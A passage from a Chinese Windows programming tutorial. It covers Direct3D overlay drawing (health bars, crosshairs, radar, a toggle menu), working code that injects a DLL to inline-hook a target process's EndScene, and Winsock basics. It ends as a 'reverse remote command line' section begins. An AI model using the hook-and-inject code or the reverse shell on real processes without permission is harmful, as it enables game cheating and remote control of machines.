除此之外LyDrawLib库还支持绘制空心矩形，此处笔者提供了两个函数来实现绘制，函数`DrawBorderRectangle`可用于绘制一个空心矩形，当然读者也可以调用`DrawFourCornersBox`实现绘制四角方框，这两种方框的绘制原理都是运用了画线函数实现，只是通过数学计算得到了方框效果，读者也可以自行封装一些其他绘制方法。
```c
void Draw()
{
    // 空心矩形
    LyDrawLib::Start()->DrawBorderRectangle(30, 20, 90, 150, 2, D3DCOLOR_RGBA(255, 0, 0, 184));

    LyDrawLib::Start()->DrawBorderRectangle(130, 20, 60, 100, 2, D3DCOLOR_RGBA(22, 0, 0, 184));

    // 绘制四角方框
    LyDrawLib::Start()->DrawFourCornersBox(230, 20, 90, 150, 1, D3DCOLOR_RGBA(254, 0, 0, 25));

    LyDrawLib::Start()->DrawFourCornersBox(330, 20, 90, 150, 2, D3DCOLOR_RGBA(157, 14, 77, 184));
}
```

运行上述绘制代码，读者可看到如下图所示的实体图形输出；



我们继续延申绘制功能，函数`DrawPerspectiveRect`用于绘制复合矩形，该举行的实现原理同样是两个简单的矩形组合而成，而在第一个矩形内部则使用了一个加粗线条版的直线用于描绘当前某个属性的具体参数，当某值发生变化是条形框中的颜色也会相应发生变化，该函数需要传递五个参数，分别是`属性值/X坐标/Y坐标/宽度/高度`传入后即可绘制出给中类型的复杂矩形；
```c
void Draw()
{
    LyDrawLib::Start()->DrawPerspectiveRect(93, 30, 30, 90, 160);

    LyDrawLib::Start()->DrawPerspectiveRect(65, 160, 30, 60, 120);

    LyDrawLib::Start()->DrawPerspectiveRect(10, 260, 30, 40, 100);
}
```

运行上述绘制代码，读者可看到如下图所示的实体图形输出；



#### 13.3.3 绘制进度条

除了绘制矩形外，LyDrawLib库还支持绘制不同种类的血块，通过`DrawBloodFrame`可绘制普通血块，如果需要绘制竖向血块则可使用`DrawBlood_Vertical`函数，同样读者也可使用`DrawBlood_Horizontal`两者之间的不同在于第二个函数可以指定掉血的方向，例如是从上向下还是从下向上，基础版则不支持此类功能，此外`DrawBlood_Transverse`也可用于绘制血块，该函数可传递两个不同的颜色用于区别血条与血块，读者可自行更改绘制参数分别测试绘制效果；
```c
void Draw()
{
    // 普通血块(空块)
    LyDrawLib::Start()->DrawBloodFrame(10, 20, 100, 15, 2, D3DCOLOR_RGBA(254, 0, 0, 184));

    // 竖向血条(基础)
    LyDrawLib::Start()->DrawBlood_Vertical(100, 200, 200, 100, 55, D3DCOLOR_RGBA(254, 0, 0, 184));

    // 竖向血条(封装) style = 0 从下往上减血  style = 1 从上往下减血
    LyDrawLib::Start()->DrawBlood_Horizontal(67, 300, 300, 22, 100, D3DCOLOR_RGBA(254, 0, 0, 184), 1);

    LyDrawLib::Start()->DrawBlood_Horizontal(15, 400, 300, 22, 100, D3DCOLOR_RGBA(254, 0, 0, 184), 0);

    // 中心血条
    LyDrawLib::Start()->DrawCenterBlood(300, 55, 100, 25, 98, 0);

    // 横向血条
    LyDrawLib::Start()->DrawBlood_Transverse(83, 360, 200, 100, 22, D3DCOLOR_RGBA(254, 0, 0, 184), D3DCOLOR_RGBA(44, 0, 0, 10));

    LyDrawLib::Start()->DrawBlood_Transverse(45, 400, 200, 22, 100, D3DCOLOR_RGBA(254, 0, 0, 184), D3DCOLOR_RGBA(44, 0, 0, 10));
}
```

运行上述绘制代码，读者可看到如下图所示的实体图形输出；



#### 13.3.4 绘制圆形及准星

除了上述绘制矩形外，LyDrawLib库也支持绘制圆形圆角等功能，通过调用`DrawCircle`函数读者可实现绘制圆环，使用`DrawCollimation`或者`DrawSuperCollimation`函数，可绘制准星，此处的准星模式有三种读者可通过最后一个参数传递用于控制绘制准星的种类，最后`DrawRadar`函数可用于绘制雷达；
```c
void Draw()
{
    // 画圆形
    LyDrawLib::Start()->DrawCircle(100, 200, 55, 3, D3DCOLOR_RGBA(255, 0, 0, 255));

    // 画圆点
    LyDrawLib::Start()->DrawPoint(55, 67, 2, D3DCOLOR_RGBA(255, 0, 0, 255));

    // 画十字准星
    LyDrawLib::Start()->DrawCollimation(255, 44, D3DCOLOR_RGBA(255, 0, 0, 255), 1);

    LyDrawLib::Start()->DrawCollimation(280, 44, D3DCOLOR_RGBA(255, 0, 0, 255), 2);

    LyDrawLib::Start()->DrawCollimation(350, 44, D3DCOLOR_RGBA(255, 0, 0, 255), 3);

    // 超级准星
    LyDrawLib::Start()->DrawSuperCollimation(255, 100, D3DCOLOR_RGBA(255, 0, 0, 255), 1);

    LyDrawLib::Start()->DrawSuperCollimation(300, 100, D3DCOLOR_RGBA(255, 0, 0, 255), 2);

    LyDrawLib::Start()->DrawSuperCollimation(350, 100, D3DCOLOR_RGBA(255, 0, 0, 255), 3);

    // 绘制雷达
    LyDrawLib::Start()->DrawRadar(400, 200);
}
```

运行上述绘制代码，读者可看到如下图所示的实体图形输出；



#### 13.3.5 绘制文本字符串

有时候我们需要绘制一些文本字体等功能，LyDrawLib库同时支持绘制普通文本，描边文本，以及多重文本，读者可使用如下代码片段自行测试绘制效果；
```c
void Draw()
{
    char szBuf[256] = { 0 };

    strcpy(szBuf, "hello lyshark www.lyshark.com");

    // 普通文本
    LyDrawLib::Start()->DrawString(szBuf, 25, 10, 20, D3DCOLOR_RGBA(255, 0, 0, 255));

    // 描边文本
    LyDrawLib::Start()->DrawColourString(szBuf, 30, 20, 40, D3DCOLOR_RGBA(255, 0, 0, 255), D3DCOLOR_RGBA(5, 0, 0, 2));

    // 多重文本
    LyDrawLib::Start()->DrawStringAndString(szBuf, szBuf, 40, 25, 50, 100, D3DCOLOR_RGBA(255, 0, 0, 255), D3DCOLOR_RGBA(5, 0, 0, 2));

    LyDrawLib::Start()->DrawColourString2("hello lyshark", 50, 20, 20, D3DCOLOR_RGBA(0, 0, 255, 221));

    LyDrawLib::Start()->DrawColourString3("welcome lyshark.com", 60, 40, 40, D3DCOLOR_RGBA(255, 0, 255, 255));
}
```

运行上述绘制代码，读者可看到如下图所示的实体图形输出；



至此绘图库的基本功能也就介绍完了，这里扩展一个知识点，在某些时候我们需要得到当前窗体中画面的FPS参数，该数据的获取可以使用`timeGetTime()*0.001`来实现，通过该函数计算帧数的差值，即可很容易的得到页面的FPS值，如下所示代码；
```c
#pragma comment(lib,"winmm.lib")

typedef struct
{
    DWORD 当前帧数;
    FLOAT 当前时间;
    FLOAT 持续时间;
    FLOAT 返回FPS;
}D3DFPS;

D3DFPS fps = { 0 };

FLOAT get_fps()
{
    fps.当前帧数 = fps.当前帧数 + 1;
    fps.当前时间 = timeGetTime() * 0.001;
    if (fps.当前时间 - fps.持续时间 > 1)
    {
        fps.返回FPS = fps.当前帧数 / (fps.当前时间 - fps.持续时间);
        fps.持续时间 = fps.当前时间;
        fps.当前帧数 = 0;
    }

    return fps.返回FPS;
}

void Draw()
{
    char sz[256] = { 0 };

    sprintf(sz, "当前 FPS: %f", get_fps());
    LyDrawLib::Start()->DrawColourString2(sz, 30, 20, 20, D3DCOLOR_RGBA(0, 0, 255, 221));

    char nam[256] = { 0 };
    strcpy(nam, "PowerBy: lyshark");
    LyDrawLib::Start()->DrawColourString2(nam, 20, 70, 70, D3DCOLOR_RGBA(0, 0, 255, 221));
}
```

运行上述绘制代码，读者可看到如下图所示的实体图形输出；




#### 13.3.6 绘制功能菜单

此外LyDrawLib库还支持绘制各类复杂的图形结构，通过对本库的灵活运用，读者可是实现一个简单的功能菜单，如下所示。
```c
void Menu()
{
  int Spacingposition = 0;
  int Leftmostmenu = WindowWidth / 30;
  int Menuhighest = Windowheight / 3;

  Spacingposition = Spacingposition + 10;

  LyDrawLib::Start()->DrawBorderRectangle(Leftmostmenu + 5, Menuhighest + 9 + (2 - 1) * 25, 110, 20, 1, D3DCOLOR_XRGB(148, 0, 211));
  LyDrawLib::Start()->DrawBorderRectangle(Leftmostmenu, Menuhighest, 120, 190, 1, D3DCOLOR_XRGB(255, 69, 0));

  LyDrawLib::Start()->DrawStringAndString("功能A ", "[开启]", 12, 65, Leftmostmenu + 10, Menuhighest + Spacingposition, D3DCOLOR_XRGB(255, 52, 179), D3DCOLOR_XRGB(0, 255, 0));
  Spacingposition = Spacingposition + 25;

  LyDrawLib::Start()->DrawStringAndString("功能B ", "[开启]", 12, 65, Leftmostmenu + 10, Menuhighest + Spacingposition, D3DCOLOR_XRGB(255, 52, 179), D3DCOLOR_XRGB(0, 255, 0));
  Spacingposition = Spacingposition + 25;

  LyDrawLib::Start()->DrawStringAndString("功能C ", "[开启]", 12, 65, Leftmostmenu + 10, Menuhighest + Spacingposition, D3DCOLOR_XRGB(255, 52, 179), D3DCOLOR_XRGB(0, 255, 0));
  Spacingposition = Spacingposition + 25;

  LyDrawLib::Start()->DrawStringAndString("功能D ", "[开启]", 12, 65, Leftmostmenu + 10, Menuhighest + Spacingposition, D3DCOLOR_XRGB(255, 52, 179), D3DCOLOR_XRGB(0, 255, 0));
  Spacingposition = Spacingposition + 25;

  LyDrawLib::Start()->DrawStringAndString("功能E ", "[开启]", 12, 65, Leftmostmenu + 10, Menuhighest + Spacingposition, D3DCOLOR_XRGB(255, 52, 179), D3DCOLOR_XRGB(255, 250, 250));
  Spacingposition = Spacingposition + 25;

  LyDrawLib::Start()->DrawStringAndString("功能F ", "[开启]", 12, 65, Leftmostmenu + 10, Menuhighest + Spacingposition, D3DCOLOR_XRGB(255, 52, 179), D3DCOLOR_XRGB(255, 250, 250));
  Spacingposition = Spacingposition + 25;

  LyDrawLib::Start()->DrawStringAndString("功能G ", "[开启]", 12, 65, Leftmostmenu + 10, Menuhighest + Spacingposition, D3DCOLOR_XRGB(255, 52, 179), D3DCOLOR_XRGB(255, 250, 250));
  Spacingposition = Spacingposition + 35;

  LyDrawLib::Start()->DrawString("HOME 显示/隐藏", 15, Leftmostmenu + 9, Menuhighest + Spacingposition, D3DCOLOR_RGBA(255, 0, 0, 255));
}
```

读者可自行运行这段代码片段，此时在窗体中会出现一个功能菜单，如下图所示；




### 13.4 DirectX内部劫持绘制

相对于外部绘图技术的不稳定性，内部绘制则显得更加流程与稳定，在`Dx9`环境中，函数`EndScene`是在绘制`3D`场景后，用于完成将最终的图像渲染到屏幕的一系列操作的函数。它会将缓冲区中的图像清空，设置视口和其他渲染状态，执行顶点和像素着色器，最后在后台缓冲区中生成一张完整的渲染图像，然后将其呈现到屏幕上，完成一次绘制操作。

而`EndScene`是`IDirect3DDevice9`第`43`个函数，我们通过对该函数进行挂钩，并将该函数绘制之前的流程劫持到自身进程内的`MyEndScene`函数内做图形的增加工作，当我们增加好所需功能后再将该函数指向原来的函数入口，此时`EndScene`函数再次渲染则会出现我们所新增的功能，利用这种方式即可实现屏幕图形绘制效果，至于笔者是如何确定该函数是第43个的，读者可以在`IDirect3DDevice9`上面右键查看定义，至此即可看到函数所在位置；



#### 13.4.1 封装Hook劫持功能

首先要实现劫持需要封装钩子函数，如下代码片段则是一个简单通用的钩子结构体的封装，该结构体在此处其实是当作类来使用了，其中读者只需要调用`JmpCode()`函数则可自动将需要跳转的内存地址与JMP指令相结合，当有了跳转指令的机器码后，则我们只需要通过`VirtualProtect`设置内存属性为可写，并通过调用`memcpy`函数即可实现对特定内存的地址替换功能，如下代码中`hook()`函数用于挂钩，`unhook()`函数则用于摘除，代码比较通用读者可应用于任何一个领域。

```c
// ---------------------------------------------------------------------------------
// 挂钩摘钩结构体
// ---------------------------------------------------------------------------------

#pragma pack(push)
#pragma pack(1)
#ifndef _WIN64
struct JmpCode
{
private:
    const BYTE jmp;
    DWORD address;

public:
    JmpCode(DWORD srcAddr, DWORD dstAddr) : jmp(0xE9)
    {
        setAddress(srcAddr, dstAddr);
    }

    void setAddress(DWORD srcAddr, DWORD dstAddr)
    {
        address = dstAddr - srcAddr - sizeof(JmpCode);
    }
};
#else
struct JmpCode
{
private:
    BYTE jmp[6];
    uintptr_t address;

public:
    JmpCode(uintptr_t srcAddr, uintptr_t dstAddr)
    {
        static const BYTE JMP[] = { 0xFF, 0x25, 0x00, 0x00, 0x00, 0x00 };
        memcpy(jmp, JMP, sizeof(jmp));
        setAddress(srcAddr, dstAddr);
    }

    void setAddress(uintptr_t srcAddr, uintptr_t dstAddr)
    {
        address = dstAddr;
    }
};
#endif
#pragma pack(pop)

// ---------------------------------------------------------------------------------
// Hook挂钩与摘够函数
// ---------------------------------------------------------------------------------

// 开始Hook
int hook(void* originalFunction, void* hookFunction, BYTE* oldCode)
{
    JmpCode code((uintptr_t)originalFunction, (uintptr_t)hookFunction);
    DWORD oldProtect, oldProtect2;

    // 设置内存保护方式为可读写
    if (VirtualProtect(originalFunction, sizeof(code), PAGE_EXECUTE_READWRITE, &oldProtect))
    {
        memcpy(oldCode, originalFunction, sizeof(code));
        memcpy(originalFunction, &code, sizeof(code));

        // 恢复内存保护方式
        if (VirtualProtect(originalFunction, sizeof(code), oldProtect, &oldProtect2))
        {
            return 1;
        }
    }
    return 0;
}

// 取消Hook
int unhook(void* originalFunction, BYTE* oldCode)
{
    DWORD oldProtect, oldProtect2;

    // 设置保护方式为可读写
    if (VirtualProtect(originalFunction, sizeof(JmpCode), PAGE_EXECUTE_READWRITE, &oldProtect))
    {
        memcpy(originalFunction, oldCode, sizeof(JmpCode));

        // 恢复内存保护方式
        if (VirtualProtect(originalFunction, sizeof(JmpCode), oldProtect, &oldProtect2))
        {
            return 1;
        }
    }
    return 0;
}
```

#### 13.4.2 自定义MyEndScene函数

接着就是自定义绘图部分，此处第一个`DrawBox`绘图函数我们仅仅提供一个方框的绘制，如果需要更多绘制技巧读者可自行尝试实现，这里我们重点看一下`MyEndScene`函数，该函数是我们的自定义函数，当进程绘图函数被挂钩后，所有调用原函数的请求都会被路由到此函数内，进入此函数内首先通过`g_font == NULL`判断函数是不是第一次被调用如果是第一次被调用则对当前模块的字体绘制设备等进行初始化，而如果不是第一次绘制则自动流转到`else`片段内，此块区域内则是我们自己自由发挥的位置，如下代码中我们仅仅是绘制了一段话，并绘制出了两个方框，并没有做其他功能扩展。
```c
void* endSceneAddr = NULL;
BYTE endSceneOldCode[sizeof(JmpCode)];

ID3DXFont* g_font = NULL;
ID3DXLine* d3dLine = NULL;

// ---------------------------------------------------------------------------------
// 绘图函数
// ---------------------------------------------------------------------------------

// 绘制方框
void DrawBox(float x, float y, float width, float height, float w, D3DCOLOR color)
{
    D3DXVECTOR2 points[5];
    points[0] = D3DXVECTOR2(x, y);
    points[1] = D3DXVECTOR2(x + width, y);
    points[2] = D3DXVECTOR2(x + width, y + height);
    points[3] = D3DXVECTOR2(x, y + height);
    points[4] = D3DXVECTOR2(x, y);
    d3dLine->SetWidth(w);
    d3dLine->Draw(points, 5, color);
}

// ---------------------------------------------------------------------------------
// Hook处理函数
// ---------------------------------------------------------------------------------

// 该函数是劫持后的转向函数,这里面可以增加功能
HRESULT STDMETHODCALLTYPE MyEndScene(IDirect3DDevice9* thiz)
{
    // 如果是第一次则初始化绘图库
    if (g_font == NULL)
    {
        // 初始化字体
        D3DXCreateFontA(thiz, 12, 0, FW_HEAVY, 1, 0, DEFAULT_CHARSET, OUT_DEFAULT_PRECIS, ANTIALIASED_QUALITY, DEFAULT_PITCH | FF_DONTCARE, "宋体", &g_font);

        // 线条初始化线条
        D3DXCreateLine(thiz, &d3dLine);

        // 临时摘除钩子
        unhook(endSceneAddr, endSceneOldCode);

        // 设置绘图设备
        HRESULT hr = thiz->EndScene();

        // 继续挂钩
        hook(endSceneAddr, MyEndScene, endSceneOldCode);
        return hr;
    }

    // 不是第一次则直接绘图
    else
    {
        // 自定义绘制流程
        // ---------------------------------------------------------------
        static RECT rect = { 0, 0, 200, 200 };

        // 屏幕写字
        g_font->DrawText(NULL, L"Inject D3D hook Success ...", -1, &rect, DT_TOP | DT_LEFT, D3DCOLOR_XRGB(255, 0, 0));

        // 屏幕绘制方框
        DrawBox(25, 30, 60, 120, 2, D3DCOLOR_XRGB(255, 0, 255));
        DrawBox(45, 60, 35, 70, 2, D3DCOLOR_XRGB(255, 69, 0));

        // ---------------------------------------------------------------

        // 恢复钩子
        unhook(endSceneAddr, endSceneOldCode);

        // 执行原函数
        HRESULT hr = thiz->EndScene();

        // 挂钩
        hook(endSceneAddr, MyEndScene, endSceneOldCode);
        return hr;
    }
}
```

#### 13.4.3 初始化与绘制图形

继续向下则是`initHookThread`函数，该函数内我们自行创建了一个具有空类名的隐藏窗口，并通过调用`Direct3DCreate9`实现了对Dx9引擎的初始化，通过调用`(*(void***)device)[42]`的方式我们即可获取到当前内存中`endSceneAddr`的原始地址，有了这个地址则直接对其进行Hook替换，此时当有新的请求访问该函数时则会自动路由到`MyEndSceneAddr`函数内。

```c
// 初始化Hook线程
DWORD WINAPI initHookThread(LPVOID dllMainThread)
{
    WaitForSingleObject(dllMainThread, INFINITE);
    CloseHandle(dllMainThread);

    WNDCLASSEX wc = {};
    wc.cbSize = sizeof(wc);
    wc.style = CS_OWNDC;
    wc.hInstance = GetModuleHandle(NULL);
    wc.lpfnWndProc = DefWindowProc;
    wc.lpszClassName = _T("LySharkWindow");

    // 注册窗口类
    if (RegisterClassEx(&wc) == 0)
    {
        return 0;
    }

    // 创建窗口
    HWND hwnd = CreateWindowEx(0, wc.lpszClassName, _T(""), WS_OVERLAPPEDWINDOW, 0, 0, 640, 480, NULL, NULL, wc.hInstance, NULL);
    if (hwnd == NULL)
    {
        return 0;
    }

    // 初始化D3D
    IDirect3D9* d3d9 = Direct3DCreate9(D3D_SDK_VERSION);
    if (d3d9 == NULL)
    {
        DestroyWindow(hwnd);
        return 0;
    }

    D3DPRESENT_PARAMETERS pp = {};
    pp.Windowed = TRUE;
    pp.SwapEffect = D3DSWAPEFFECT_COPY;

    // 创建设备
    IDirect3DDevice9* device;
    if (FAILED(d3d9->CreateDevice(D3DADAPTER_DEFAULT, D3DDEVTYPE_HAL, hwnd, D3DCREATE_SOFTWARE_VERTEXPROCESSING, &pp, &device)))
    {
        d3d9->Release();
        DestroyWindow(hwnd);
        return 0;
    }

    // 开始劫持 EndScene
    // EndScene是IDirect3DDevice9第43个函数
    endSceneAddr = (*(void***)device)[42];

    // 开始挂钩
    hook(endSceneAddr, MyEndScene, endSceneOldCode);

    // 释放
    d3d9->Release();
    device->Release();
    DestroyWindow(hwnd);
    return 0;
}
```
有了上述代码基础，接着读者只需要增加一个DLL头，在入口处通过`DuplicateHandle`得到当前线程的线程ID，并调用`CreateThread`创建新线程，此时劫持也就正式生效了。
```c
// dll入口
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        HANDLE curThread;

        // 获取当前线程ID
        if (!DuplicateHandle(GetCurrentProcess(), GetCurrentThread(), GetCurrentProcess(), &curThread, SYNCHRONIZE, FALSE, 0))
        {
            return FALSE;
        }

        // DllMain中不能使用COM组件 所以要在另一个线程初始化
        CloseHandle(CreateThread(NULL, 0, initHookThread, curThread, 0, NULL));
        break;

    case DLL_PROCESS_DETACH:
        if (endSceneAddr != NULL)
        {
            unhook(endSceneAddr, endSceneOldCode);
        }
        break;
    }
    return TRUE;
}
```

至此，读者可使用任意一款注入软件将编译好的`hook.dll`文件注入到目标进程内，此时会发现窗体上新增加了一行文字和两个方框，至此绘制实现；



## 第十四篇：网络套接字编程入门

Winsock是Windows操作系统上的套接字API，用于在网络上进行数据通信。Winsock套接字通信是一种允许应用程序在计算机网络上进行实时数据交换的技术。通过使用Windows提供的API，应用程序可以创建一个套接字来进行数据通信。这个套接字可以绑定到一个端口，以允许其他应用程序连接它。另外，Winsock套接字通信可以使用TCP/IP、UDP等协议来完成不同类型的数据传输任务。在网络应用程序开发中，Winsock套接字通信是非常重要的，可以帮助应用程序开发者实现客户端/服务端模型，并实现数据的可靠传输。

### 14.1 Socket 简单通信流程

Windows平台套接字通信需要经历，创建套接字(Socket)，绑定(Bind)，监听(Listen)，接受(Accept)，连接(Connect)，发送数据(Send)，接收数据(Receive)，关闭(Close)等几个关键步骤，当读者需要使用网络通信时需引入`winsock2.h`头文件，并通过`#pragma comment(lib,"ws2_32.lib")`包含对应库，需要注意的是该头文件与`windows.h`头冲突，如果两者同时存在则会出现编译不通过的情况；

#### 14.1.1 服务端通信

**（1）WSAStartup(MAKEWORD(2, 0), &WSAData)**

当读者需要使用套接字编程时，不论是服务端还是客户端都需要调用`WSAStartup`初始化套接字库，该函数接受两个参数传递，第一个参数一般默认会传递`MAKEWORD(2, 0)` 它是一个宏，用于将两个8位的字节合并成一个16位的字，在`MAKEWORD(2, 0)`中，括号内的数字分别代表高位字节`（2）`和低位字节`（0）`，宏会将它们合并成一个16位的无符号`short`整型数据，即`0000001000000000`（二进制），表示`Winsock`的版本号为`2.0`。第二个参数`WSADATA`结构体，用于`Winsock`初始化时存储相关的信息，一般会在全局`WSADATA WSAData;`直接定义得到。
```c
#include <iostream>
#include <winsock2.h>
#include <WS2tcpip.h>

#pragma comment(lib,"ws2_32.lib")

// 定义结构体
WSADATA WSAData;

// 启动winsock中的WSAStartup()函数对Winsock DLL进行初始化
if (WSAStartup(MAKEWORD(2, 0), &WSAData) == SOCKET_ERROR)
{
    std::cout << "WSA动态库初始化失败" << std::endl;
    return 0;
}
```

**（2）socket(AF_INET, SOCK_STREAM, 0)**

通信的第二步则是调用`Socket()`函数，该函数是用于创建一个套接字的系统调用。在该函数中，给定三个参数，分别为地址族`(Address Family)`、套接字类型`(Socket Type)`和协议`(Protocol)`，套接字在初始化并完成时会返回一个`SOCKET`类型的文件描述符句柄，此处我们将该句柄存储至`server_socket`变量内。`AF_INET`用于指定套接字地址族为`IPv4`类型，`SOCK_STREAM`则用于指定该套接字的类型为流式套接字，用于面向连接的可靠数据传输(TCP协议)。
```c
// 服务进程创建套接字句柄（用于监听）
SOCKET server_socket;

// 调用socket()函数创建一个流套接字，参数（网络地址类型，套接字类型，网络协议）
if ((server_socket = socket(AF_INET, SOCK_STREAM, 0)) == ERROR)
{
  std::cout << "Socket 创建失败" << std::endl;
  WSACleanup();
  return 0;
}
```

**（3）bind(server_socket, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr))**

套接字编程的第三步则是绑定，套接字的绑定需要调用`bind()`函数实现，该函数接受三个参数传递，第一个参数是`socket()`中创建的套接字文件描述符句柄，该参数用于指定针对哪一个套接字进行操作，第二个参数则是`sockaddr_in`类型的结构体，该结构体内用于指定需要绑定套接字的具体类型参数等信息，在如下代码中我们通过`ServerAddr.sin_family = AF_INET;`将套接字类型设置为了互联网域模式，通过`ServerAddr.sin_port = htons(9999);`指定了需要绑定的端口号，而`ServerAddr.sin_addr.s_addr = inet_addr("0.0.0.0");`则用于指定了要绑定本机的那个网口，一般而言如果读者需要在本机使用此处可填入`127.0.0.1`而如果侦听任意一个网口则可使用`0.0.0.0`，第三个参数则是传入结构体的长度，此处通过`sizeof(ServerAddr)`方法得到，最终将结构体`ServerAddr`直接填入绑定函数即可实现对网络套接字的绑定。
```c
// 结构sockaddr_in用来标识TCP/IP协议下的地址，可强制转换为sockaddr结构
struct sockaddr_in ServerAddr;

// 字段sin_family必须设为AF_INET，表示该Socket处于Internet域
ServerAddr.sin_family = AF_INET;

// 字段sin_port用于指定服务端口，注意避免冲突
ServerAddr.sin_port = htons(9999);

// 字段sin_addr用于把一个IP地址保存为一个4字节，无符号长整型，根据不同用法还可表示本地或远程IP地址
// 该字段可以直接使用INADDR_ANY代表侦听所有地址，也可指定地址
ServerAddr.sin_addr.s_addr = inet_addr("0.0.0.0");

// 调用bind()函数将本地地址绑定到所创建的套接字上，以在网络上标识该套接字
if (bind(server_socket, (LPSOCKADDR)&ServerAddr, sizeof(ServerAddr)) == SOCKET_ERROR)
{
  std::cout << "绑定套接字失败" << std::endl;
  closesocket(server_socket);
  WSACleanup();
  return 0;
}
```

**（4）listen(server_socket, 10)**

当套接字被绑定后，接下来则是侦听套接字，通过调用`listen()`函数将套接字置入监听模式并准备接受连接请求，该函数需要传入两个参数，参数1为套接字套接字句柄，参数二为侦听套接字最大连接数，如果进入侦听状态则说明该套接字是等待连接状态，一旦服务器接受了连接，它可以使用返回的套接字对象与发起连接的客户端进行通信。

```c
// 将 ServerAddr.sin_addr 网络字节序,转为本机侦听IP地址
char local_address[20];
inet_ntop(AF_INET, &ServerAddr.sin_addr, local_address, 16);
std::cout << "侦听本地地址: " << local_address << " 侦听本地端口: " << ntohs(ServerAddr.sin_port) << std::endl;

// 参数（已捆绑未连接的套接字描述字，正在等待连接的最大队列长度）
if (listen(server_socket, 10) == SOCKET_ERROR)
{
  std::cout << "侦听套接字失败" << std::endl;
  closesocket(server_socket);
  WSACleanup();
  return 0;
}
```

**（5）accept(server_socket, (LPSOCKADDR)0, (int*)0)**

当一个套接字进入侦听状态后则下一步是需要等待有客户端连接到本端，当服务器通过调用`listen()`函数开始监听连接请求时，客户端可以通过使用`connect()`函数尝试与服务器建立连接。一旦客户端发送连接请求，服务器将收到通知。然后服务器可以使用`accept()`函数接受连接请求并创建一个新的套接字对象，该对象可以用于与客户端进行通信。

accept() 函数通常在一个循环中使用，以便服务器可以在等待新连接时继续处理已连接的客户端。每次调用`accept()`函数时，如果有连接请求，则函数将阻塞直到一个连接请求被接受。一旦连接请求被接受，函数将返回一个新的套接字对象和客户端的地址信息。

在接受连接请求并创建新的套接字对象之后，服务器可以使用该对象与客户端进行通信。同时，服务器可以使用原始的`server_socket`套接字对象来等待更多的连接请求，以便能够接受更多的客户端连接。

如下的代码中当`accept()`接收到等待消息时，则会将该句柄保存至`message_socket`变量内，此时用户只需要向该指针中发送`recv()`或接收`send()`数据即可，此时套接字通信即可正式被建立起来。

```c
// 数据接收缓冲区
SOCKET message_socket;
char buf[8192] = {0};
while (1)
{
  // 进入监听状态后，调用accept()函数接收客户端的连接请求，并把连接传给msgsock套接字
  // 原sock套接字继续监听其他客户机连接请求
  if ((message_socket = accept(server_socket, (LPSOCKADDR)0, (int*)0)) == INVALID_SOCKET)
  {
    continue;
  }

  // 初始化数据接收缓冲区
  memset(buf, 0, sizeof(buf));
   
  // 接收客户端发送过来的数据
  bool ref = recv(message_socket, buf, 8192, 0);
  if (ref != 0)
  {
    std::cout << "接收数据: " << buf << std::endl;
  }
  
  // 关闭子套接字
  closesocket(message_socket);
}
```

至此我们的服务端将被运行起来，需要注意的是服务端程序如果需要结束本次会话则需要手动调用`closesocket(server_socket);`关闭一个套接字句柄，当整个进程执行结束后读者还需要调用`WSACleanup()`终止对Winsock DLL的使用，并释放资源。

#### 14.1.2 客户端通信

对于客户端通信而言其流程与服务端通信基本保持一致，该流程分别是，创建套接字，连接到服务器，建立连接，发送数据，关闭连接，对于初始化部分客户端通信与服务端没有任何区别，唯一的区别在于对于服务端而言一般是使用`listen()`函数侦听套接字，而对于客户端而言则是使用`connect()`函数连接到服务端，一旦连接建立成功，客户端可以通过向服务器发送数据来与服务器进行通信。

在调用`connect(socket_addr)`时，需要传递一个参数`sockaddr`。sockaddr 是一个结构体，包含了客户端与服务器的地址信息，包括其`IP`地址和端口号。在`C/C++`中，sockaddr 结构体通常被定义为`sockaddr_in`结构体，包含了`IP`地址和端口号等信息。如果连接建立成功，connect() 函数将返回 0。如果连接失败，则会返回一个错误代码，其中最常见的错误是连接超时或目标主机拒绝连接。

一旦连接建立成功，客户端可以使用新创建的套接字对象向服务器发送数据，并使用`recv()`函数从服务器接收数据。一般来说，在与服务器进行通信之前，客户端套接字需要使用`bind()`函数指定一个本地地址和端口，以确保数据可以正确地传输。
```c
int main(int argc, char* argv[])
{
  char buf[8192] = { 0 };

  while (1)
  {
    std::cout << "发送数据: ";
    int inputLen = 0;
    memset(buf, 0, sizeof(buf));

    // 输入以回车键为结束标识
    while ((buf[inputLen++] = getchar()) != '\n'){ ; }

    // 初始化
    WSADATA WSAData;
    if (WSAStartup(MAKEWORD(2, 0), &WSAData) == SOCKET_ERROR)
    {
      continue;
    }

    // 创建套接字
    SOCKET client_socket;
    if ((client_socket = socket(AF_INET, SOCK_STREAM, 0)) == SOCKET_ERROR)
    {
      WSACleanup();
      continue;
    }

    // 填充通信结构体
    struct sockaddr_in ClientAddr;
    ClientAddr.sin_family = AF_INET;
    ClientAddr.sin_port = htons(9999);
    ClientAddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    // 连接到服务端
    if (connect(client_socket, (LPSOCKADDR)&ClientAddr, sizeof(ClientAddr)) == SOCKET_ERROR)
    {
      closesocket(client_socket);
      WSACleanup();
      continue;
    }

    // 向服务端发送数据
    send(client_socket, buf, 8192, 0);

    // 关闭套接字
    closesocket(client_socket);
    WSACleanup();
  }

  return 0;
}
```

读者可自行运行上述程序，启动服务端与客户端，并发送测试数据观察变化，当发送数据后读者应该能看到如下图所示的提示信息；



### 14.2 Socket 反向远程命令行

本节内容将继续实现套接字通信技术，在实现反向远程命令时，可以使用`_popen(buf, "r")`函数来启动一个命令行进程，并将输出重定向到一个可读的缓冲区中。缓冲区将保存命令输出的内容，并将其发送回到控制程序也就是服务端则可实现远程命令行执行的目的，首先我们来看一下`_popen()`函数的原型定义。
```c
FILE *_popen(const char *command, const char *mode);
```

该函数接受两个参数：

 - command：字符串，包含要执行的命令行指令。
 - mode：字符串，用于指定管道的打开方式，支持 "r" 和 "w" 两种模式。

函数返回一个`FILE`结构体指针，该指针指向一个由命令产生的输出流。在执行命令时，该函数将创建一个进程来运行命令，并从该进程的标准输出流中读取输出。然后该函数将返回一个文件指针，该文件指针包装了一个文件描述符，用于访问输出流。最终，用户可以使用标准的文件读取操作（如 fread()、fgets() 等）从该文件指针中读取输出，有了该函数的支持再配合套接字即可实现远程命令执行的效果；

#### 14.2.1 服务端实现

